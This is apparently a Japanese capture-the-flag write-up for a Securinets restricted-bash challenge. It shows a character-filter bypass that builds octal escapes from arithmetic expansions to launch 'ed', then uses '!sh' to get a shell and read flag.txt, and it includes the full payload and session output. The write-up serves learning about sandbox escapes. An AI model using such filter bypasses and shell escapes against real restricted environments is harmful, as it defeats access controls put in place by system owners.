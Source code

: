 また、[ptr-yudai](https://twitter.com/ptrYudai) さんの試行で `$'\111'` を入力すると `I` が実行されることが分かっていました。

これらを利用して、`"\$'\\"1$((1<<1<<1))${#$}"\\"1$((1<<1<<1))$((1<<1<<1))"'"` (= `$'\145\144'` = `ed`) を実行すると `ed` を立ち上げることができました。

`ed` では `!cmd` を入力すると `cmd` というコマンドを実行できます。`!sh` でシェルを立ち上げて `cat flag.txt` でフラグが得られました。

```
>> "\$'\\"1$((1<<1<<1))${#$}"\\"1$((1<<1<<1))$((1<<1<<1))"'"
!sh
$ ls -la
total 28
dr-xr-xr-x  2 special special 4096 Mar 22 02:02 .
drwxr-xr-x 22 root    root    4096 Mar 23 23:03 ..
-rw-r--r--  1 special special  220 Sep  1  2015 .bash_logout
-rw-r--r--  1 special special 3771 Sep  1  2015 .bashrc
-rw-r-----  1 root    special   47 Mar 22 02:02 flag.txt
-rw-r-x---  1 root    special  752 Mar 22 01:55 mystery
-rw-r--r--  1 special special  655 May 16  2017 .profile
$ cat flag.txt
securinets{bash_never_stop_from_being_awesome}
```

```
securinets{bash_never_stop_from_being_awesome}
```